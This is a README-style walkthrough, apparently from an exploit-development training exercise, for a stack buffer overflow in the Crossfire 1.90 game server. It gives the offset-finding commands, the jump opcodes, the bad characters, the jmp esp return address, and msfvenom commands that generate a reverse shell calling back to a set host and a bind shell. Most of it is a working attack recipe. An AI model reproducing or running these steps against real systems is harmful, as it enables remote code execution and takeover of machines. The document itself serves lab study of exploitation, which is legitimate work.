




# CrossFile exploit development

## Exploit background

Version: Crossfire 1.90, without ASLR and DEP
Debugger use: edb (Evan's debugger) 0.9.21
OS: Linux kali 4.12.0-kali2-686

## Development steps

1. Start debugger using command `edb --run /usr/games/crossfire/bin/crossfire`

2. Use poc.py to test the buffer overflow exploit.

    

3. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
    [*] Exact match at offset 4368
    ```

    

3. Observer and find that EAX is pointing to the begining of 'setup sound AAA....', while ESP is pointing to 'CCCCCC...'

4. The shellcode will execute code in 'CCC...' section first, then jump to 'AAA...' section.

    ```
    root@kali:~/Desktop/exercise/8_linux_bufferoverflow# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    nasm > add eax, 12
    00000000  83C00C            add eax,byte +0xc
    nasm > jmp eax
    00000000  FFE0              jmp eax
    ```

    code in section 'CCC...' : \x83\xC0\x0C\xff\xe0

5. Bad characters checker, badchars is \x00\0x20 only, see code at bad_chars.py

    

6. Use Plugin -> OpcodeSearcher -> Opcode search, search for `jmp esp`, You must halt the debugger or no result is returned.

    * Select /usr/games/crossfire/bin/crossfire r-x section (Start: 08048000, End: 08144000)

    * Result: 08134597

    * Beware that 08134596 is ff f3 e4 which is not I want, should be ff e4
    
    

7. update the script to replace B with address  \x97\x45\x13\x08, set breakpoint at 0x08134597


8. run exploit_poc.py, the breakpoint trigger at 0x08134597 (stop the program first) and run to section 'CCC...' and later 'AAA...'

    

12. Now create a payload and replace the CCC section

    * reverse shell
    ```
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x20"
    ```

    * bind shell
    ```
    msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -e x86/shikata_ga_nai -b "\x00\x20\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell or bind shell is spawn.


